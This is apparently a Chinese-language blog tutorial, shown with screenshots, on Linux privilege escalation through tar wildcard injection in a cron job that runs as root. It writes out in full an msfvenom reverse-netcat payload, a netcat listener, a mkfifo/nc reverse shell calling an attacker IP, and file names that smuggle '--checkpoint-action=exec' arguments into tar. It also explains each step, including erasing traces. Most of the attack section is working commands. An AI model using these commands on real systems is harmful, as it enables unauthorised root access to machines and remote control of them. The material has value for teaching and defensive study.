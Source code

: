 现在在 crontab 的帮助下安排一个任务，以运行 tar 存档程序，以便每 1 分钟从 /var/backups 内部备份 /html。  
```
```  
  
![1748767157_683c11b592a8c2a2e06ee.png!small?1748767158586](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMfCDPno3icFFxSRiacdNss1xHotW3X2V1NicrcYyia9X60P30GVhiazs07Kh3viciakkc7rns1oYoFTiaVlQ/640?wx_fmt=jpeg&from=appmsg "")  
  
让我们通过执行以下命令来验证计划是否正常工作。  
```
```  
  
![1748767222_683c11f6f1f685757ec98.png!small?1748767223776](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMfCDPno3icFFxSRiacdNss1xNUbKFBSVqVXeJXfatk93BsYbfh7UzBcmczz1kNCfqYC7bHWh1n8Ciaw/640?wx_fmt=jpeg&from=appmsg "")  
## Tar 通配符注入   
  
权限提升启动您的攻击机器，首先破坏目标系统，然后进入权限提升阶段。假设我通过 ssh 成功登录受害者的机器，并访问了非 root 用户终端。然后打开 crontab 查看是否调度了任何作业。cat /etc/crontab在这里，我们注意到目标每 1 分钟安排一个 tar 存档程序，并且我们知道 cron 作业以 root 身份运行。让我们尝试利用。![1748767240_683c1208618e0d4c3416b.png!small?1748767241295](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMfCDPno3icFFxSRiacdNss1x0CsnjCaGMkGw5Wb7AnGKGzrlicY9mIlOz42qdOIhHQNhkajb2Dl4vFA/640?wx_fmt=jpeg&from=appmsg "")  
在新终端上，使用 msfvenom 生成 netcat 反向 shell 恶意代码以实现 netcat 反向连接，并为此输入以下命令。msfvenom -p cmd/unix/reverse_netcat lhost=192.168.206.131 lport=8888 R  
  
复制生成的有效负载并将其粘贴到受害者的 shell 中，如下所述。  
  
**nc -lvp 8888**  
  
![1748767251_683c121383a618ad9a5e2.png!small?1748767252276](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMfCDPno3icFFxSRiacdNss1xtqjsePVdSfArhfK31eymEib7wj5kBr6km6ib8mP0QVqicHavEiaYN5rPdg/640?wx_fmt=jpeg&from=appmsg "")  
1. mkfifo /tmp/s  
：创建命名管道（FIFO文件）  
  
1. /bin/sh -i < /tmp/s  
：将Shell的输入重定向到管道  
  
1. 2>&1  
：将错误输出合并到标准输出  
  
1. nc 192.168.206.131 8888 > /tmp/s  
：用Netcat连接攻击者，并将接收的数据写入管道  
  
1. rm /tmp/s  
：清理痕迹  
  
现在，按照如下所述粘贴上面复制的有效负载，并在受害者的 tty shell 中运行以下命令。  
```
echo "mkfifo /tmp/lhennp; nc 192.168.206.131 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
```  
  
上述命令可帮助 tar 命令在存档第一个文件后 shell.sh 运行文件。由于 tar 命令由于 crontab 而以 root 身份运行，因此具有生成 netcat shell 并将其发送到 8888 端口攻击平台的效果。如果您返回侦听器所在的终端窗口，您将在 1 分钟后获得受害者的反向连接。这个最后肯定是root权限因为计划任务是root，我这个因为提前开的nc，请运行之后再开nc这样会使root权限  
  
![1748767286_683c123644a33865c4844.png!small?1748767287025](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMfCDPno3icFFxSRiacdNss1x4Ls4IVYegvu6ZlAsKbgh1vSltQUXTcIzpQ4PXc0Nk3oNPLSr5qcAibg/640?wx_fmt=jpeg&from=appmsg "")  
概念信息  
  